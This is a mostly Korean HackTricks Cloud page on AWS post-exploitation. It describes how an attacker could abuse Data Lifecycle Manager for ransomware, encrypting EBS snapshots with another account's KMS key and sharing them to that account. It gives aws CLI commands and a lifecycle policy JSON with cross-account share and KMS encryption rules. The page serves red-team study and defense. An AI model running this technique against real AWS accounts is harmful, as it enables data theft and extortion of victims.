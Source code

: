 # AWS - DLM Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Data Lifecycle Manger (DLM)

### `EC2:DescribeVolumes`, `DLM:CreateLifeCyclePolicy`

랜섬웨어 공격은 가능한 많은 EBS 볼륨을 암호화한 다음 현재 EC2 인스턴스, EBS 볼륨 및 스냅샷을 삭제하여 실행될 수 있습니다. 이러한 악의적인 활동을 자동화하기 위해 Amazon DLM을 사용하여 다른 AWS 계정의 KMS 키로 스냅샷을 암호화하고 암호화된 스냅샷을 다른 계정으로 전송할 수 있습니다. 또는 암호화되지 않은 스냅샷을 관리하는 계정으로 전송한 다음 그곳에서 암호화할 수 있습니다. 기존 EBS 볼륨이나 스냅샷을 직접 암호화하는 것은 간단하지 않지만, 새 볼륨이나 스냅샷을 생성하여 그렇게 할 수 있습니다.

먼저, 인스턴스 ID, 볼륨 ID, 암호화 상태, 연결 상태 및 볼륨 유형과 같은 볼륨에 대한 정보를 수집하는 명령을 사용할 것입니다.

`aws ec2 describe-volumes`

둘째, 라이프사이클 정책을 생성합니다. 이 명령은 DLM API를 사용하여 지정된 시간에 지정된 볼륨의 일일 스냅샷을 자동으로 생성하는 라이프사이클 정책을 설정합니다. 또한 스냅샷에 특정 태그를 적용하고 볼륨에서 스냅샷으로 태그를 복사합니다. policyDetails.json 파일에는 대상 태그, 일정, 암호화를 위한 선택적 KMS 키의 ARN, 스냅샷 공유를 위한 대상 계정과 같은 라이프사이클 정책의 세부정보가 포함되어 있으며, 이는 피해자의 CloudTrail 로그에 기록됩니다.
```bash
aws dlm create-lifecycle-policy --description "My first policy" --state ENABLED --execution-role-arn arn:aws:iam::12345678910:role/AWSDataLifecycleManagerDefaultRole --policy-details file://policyDetails.json
```
정책 문서의 템플릿은 여기에서 볼 수 있습니다:
```bash
{
"PolicyType": "EBS_SNAPSHOT_MANAGEMENT",
"ResourceTypes": [
"VOLUME"
],
"TargetTags": [
{
"Key": "ExampleKey",
"Value": "ExampleValue"
}
],
"Schedules": [
{
"Name": "DailySnapshots",
"CopyTags": true,
"TagsToAdd": [
{
"Key": "SnapshotCreator",
"Value": "DLM"
}
],
"VariableTags": [
{
"Key": "CostCenter",
"Value": "Finance"
}
],
"CreateRule": {
"Interval": 24,
"IntervalUnit": "HOURS",
"Times": [
"03:00"
]
},
"RetainRule": {
"Count": 14
},
"FastRestoreRule": {
"Count": 2,
"Interval": 12,
"IntervalUnit": "HOURS"
},
"CrossRegionCopyRules": [
{
"TargetRegion": "us-west-2",
"Encrypted": true,
"CmkArn": "arn:aws:kms:us-west-2:123456789012:key/your-kms-key-id",
"CopyTags": true,
"RetainRule": {
"Interval": 1,
"IntervalUnit": "DAYS"
}
}
],
"ShareRules": [
{
"TargetAccounts": [
"123456789012"
],
"UnshareInterval": 30,
"UnshareIntervalUnit": "DAYS"
}
]
}
],
"Parameters": {
"ExcludeBootVolume": false
}
}
```
{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
